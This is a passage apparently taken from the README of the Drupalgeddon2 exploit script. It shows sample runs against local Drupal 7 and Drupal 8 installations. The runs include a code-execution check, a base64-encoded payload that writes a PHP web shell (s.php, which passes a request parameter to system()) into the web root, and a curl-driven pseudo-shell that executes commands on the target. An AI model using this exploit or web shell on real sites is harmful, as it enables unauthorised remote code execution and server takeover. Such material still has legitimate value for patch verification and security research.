 This is to support exploiting websites that first require POST-based web login and who 
respond with a session cookie, upon successful authentication.


### Drupal v8.x Example

_Drupal v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TTTBJJBP
[+] Result : TTTBJJBP
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=hostname'
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Drupal < v7.58_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.31
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TKYPVVJJ
[+] Result : TKYPVVJJ
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=hostname'

ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
```